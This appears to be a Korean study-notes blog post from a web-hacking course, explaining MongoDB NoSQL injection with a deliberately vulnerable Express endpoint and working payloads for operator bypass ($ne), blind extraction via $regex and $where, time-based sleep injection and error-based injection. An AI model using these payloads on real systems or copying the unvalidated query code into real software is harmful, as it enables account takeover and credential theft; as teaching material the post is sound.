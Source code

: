 ```yaml
---
layout : single
title : "STAGE6. SQL Injection (5) : NoSQL Injection"
categories: Security
tag: [dreamhack, webhacking]
sidebar:
    nav: "docs"
---
```

# Web Hacking - NoSQL Injection (2)

-  [x] NoSQL Injection
-  [x] Bline NoSQL Injection

## ServerSide : NoSQL Injection
SQL Injection과 공격 목적과 방법이 매우 유사하며, 이용자의 입력값이 쿼리에 포함되며 발생하는 문제점이다. MongoDB의 NoSQL Injection 취약점은 주로 이용자의 입력값에 대한 타입 검증이 불충분할 때 발생한다. MongoDB는 SQL에서 저장하는 자료형 외에도 오브젝트, 배열 타입을 사용할 수 있다.
<br><br>

MongoDB 자료형 : [link](https://www.mongodb.com/docs/manual/reference/operator/query/type/) <br><br>

**express 데이터 처리 방식** <br><br>
이용자의 입력값과 타입을 출력하는데, req.query의 타입이 문자열로 지정되어 있지 않기 때문에 문자열 외의 타입이 입력될 수 있다.

```js
const express = require('express'); // express 기본 모듈 불러오기
const app = express(); // express 객체 생성
//get 프로토콜에 대한 응답
app.get('/', function(req,res) {
    console.log('data:', req.query.data);
    console.log('type:', typeof req.query.data);
    res.send('hello world');
});
const server = app.listen(3000, function(){
    console.log('app.listen');
});
```

### NoSQL Injection
MongoDB는 문자열이 아닌 타입의 값을 입력할 수 있고, 이를 통해 연산자를 사용할 수 있다. <br><br>

**MongoDB NoSQL Injection Example** <br>

```js
const express = require('express');
const app = express();
const mongoose = require('mongoose');
const db = mongoose.connection;
mongoose.connect('mongodb://localhost:27017/', { useNewUrlParser: true, useUnifiedTopology: true });
app.get('/query', function(req,res) {
    db.collection('user').find({
        'uid': req.query.uid,
        'upw': req.query.upw
    }).toArray(function(err, result) {
        if (err) throw err;
        res.send(result);
  });
});
const server = app.listen(3000, function(){
    console.log('app.listen');
});
```

위 코드는 user 콜렉션에서 이용자가 입력한 uid와 upw에 해당하는 데이터를 찾고, 출력하는 예제 코드로, 이용자의 입력값에 대해 타입을 검증하지 않기 때문에 오브젝트 타입의 값을 입력할 수 있다. 오브젝트 타입의 값을 입력할 수 있다면, 연산자를 사용할 수 있으며, $ne 연산자는 입력한 데이터와 일치하지 않는 데이터를 반환한다. 따라서, 공격자는 계정 정보를 모르더라도 다음과 같이 입력해 해당 정보를 알아낼 수 있다.<br><br>

**ne 연산자 : uid와 upw가 a가 아닌 데이터를 조회한 결과**

```
http://localhost:3000/query?uid[$ne]=a&upw[$ne]=a
=> [{"_id":"5ebb81732b75911dbcad8a19","uid":"admin","upw":"secretpassword"}]
```

#### NoSQL Injection 실습 - admin의 계정의 비밀번호 획득하기
upw에 not equal 연산자를 사용하여 upw의 값에 상관 없이 uid가 admin인 데이터를 조회할 수 있다

```
{"uid": "admin", "upw":{"$ne":""}}
```

### Blind NoSQL Injection

MongoDB 연산자 공식 문서 : [link](https://www.mongodb.com/docs/manual/reference/operator/query/)


|Name|Description|
|:---|:---|
|$expr|쿼리 언어 내에서 집계 식을 사용할 수 있습니다.|
|$regex|지정된 정규식과 일치하는 문서를 선택합니다.|
|$text|지정된 텍스트를 검색합니다.|
|$where|JavaScript 표현식을 만족하는 문서와 일치합니다.|

#### $regex
regex 연산자를 활용한 upw에서 각 문자로 시작하는 데이터 조회하기

```
> db.user.find({upw: {$regex: "^a"}})
> db.user.find({upw: {$regex: "^b"}})
> db.user.find({upw: {$regex: "^c"}})
...
> db.user.find({upw: {$regex: "^g"}})
{ "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
```

#### $where
인자로 전달한 JS 표현식을 만족하는 데이터를 조회한다.

```
> db.user.find({$where:"return 1==1"})
{ "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }

# 필드에서는 사용할 수 없다
> db.user.find({uid:{$where:"return 1==1"}})
error: {
	"$err" : "Can't canonicalize query: BadValue $where cannot be applied to a field",
	"code" : 17287
}
```

###### substring

해당 연산자로 JS 표현식을 입력하면, Blind SQL Injection에서 한 글자씩 비교했던 것과 같이 데이터를 알아낼 수 있다. 

```
> db.user.find({$where: "this.upw.substring(0,1)=='a'"})
> db.user.find({$where: "this.upw.substring(0,1)=='b'"})
> db.user.find({$where: "this.upw.substring(0,1)=='c'"})
...
> db.user.find({$where: "this.upw.substring(0,1)=='g'"})
{ "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
```

###### Sleep 함수를 통한 Time based Injection

표현식과 함께 sleep 함수를 사용하면, 지연 시간을 통해 참/거짓 결과를 확인할 수 있다. 아래 쿼리는 upw의 첫 글자를 비교하고, 해당 표현식이 참일 때 sleep 함수를 실행한다 

```
db.user.find({$where: `this.uid=='${req.query.uid}'&&this.upw=='${req.query.upw}'`});
/*
/?uid=guest'&&this.upw.substring(0,1)=='a'&&sleep(5000)&&'1
/?uid=guest'&&this.upw.substring(0,1)=='b'&&sleep(5000)&&'1
/?uid=guest'&&this.upw.substring(0,1)=='c'&&sleep(5000)&&'1
...
/?uid=guest'&&this.upw.substring(0,1)=='g'&&sleep(5000)&&'1
=> 시간 지연 발생.
*/
```

###### Error based Injection

에러를 기반으로 데이터를 알아내는 기법으로, 올바르지 않은 문법을 입력해 고의로 에러를 발생시킨다. 

```
> db.user.find({$where: "this.uid=='guest'&&this.upw.substring(0,1)=='g'&&asdf&&'1'&&this.upw=='${upw}'"});
error: {
	"$err" : "ReferenceError: asdf is not defined near '&&this.upw=='${upw}'' ",
	"code" : 16722
}
// this.upw.substring(0,1)=='g' 값이 참이기 때문에 asdf 코드를 실행하다 에러 발생
> db.user.find({$where: "this.uid=='guest'&&this.upw.substring(0,1)=='a'&&asdf&&'1'&&this.upw=='${upw}'"});
// this.upw.substring(0,1)=='a' 값이 거짓이기 때문에 뒤에 코드가 작동하지 않음
```